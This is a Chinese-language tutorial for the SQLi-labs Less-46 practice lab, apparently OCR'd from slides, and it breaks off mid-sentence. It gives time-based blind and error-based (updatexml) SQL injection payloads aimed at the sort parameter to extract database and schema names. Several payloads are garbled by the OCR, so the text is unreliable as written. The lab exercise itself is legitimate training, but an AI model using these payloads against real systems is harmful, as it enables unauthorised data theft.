

# Less-46(2020-01-24更新，采用qq截图翻译，错误请谅解)
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
1. http://127.0.0.1/sqlii/Lesss 46/?sort=3’   sort的 值我们可以设置1,2,3均可!
2. http://127.0.0.1/sqlii/Lesss 46/?sort=3’  desc此时结果以第三列的降序进行排列
3. http://127.0.0.1/sqlii/Lesss 46/?sort=3’ asc此时的结果以第 三列的升序进行排列，说明在sort位置存在注入漏洞
4. http://127.0.0.1/sqlii/Lesss 46/?sort=left(database() ,1 )这里面显示没有什么反应，那么我们尝试使用延时注入或者是报错
注入来尝试一下
法一:延时注入
1. http://127.0.0.1/sqlii/Lesss 46/?sort=3’ and if( length(database()=1 ),1,sleep(5)) - +判断数据库长度
2. http://127.0.0.1/sqlii/Lesss 46/?sort=3’ and if (left( (select schema name from information schema.schemata limit 0,1)，1)>
'a' ,1, sleep(5)) -+判断数据库中第一 个库的第一 位的值是否大于a
法二:报错注入
1. http://127.0.0.1/sqlii/Lesss 46/?sort=3’ and updatexml( 1, concat( 0x7e, database(), 1) -+爆出当前使用数据库名称
2. http://127.0.0.1/sqlii/Lesss 46/?sort=3’ and updatexml(1, concat(0x7e, ( select schema name from
information. schema.schemata limit0,1) ) ,1) +爆出数据库中的第一个值， 可以使用遍历的思想去继续操作下去
因为我自己将ppt中后面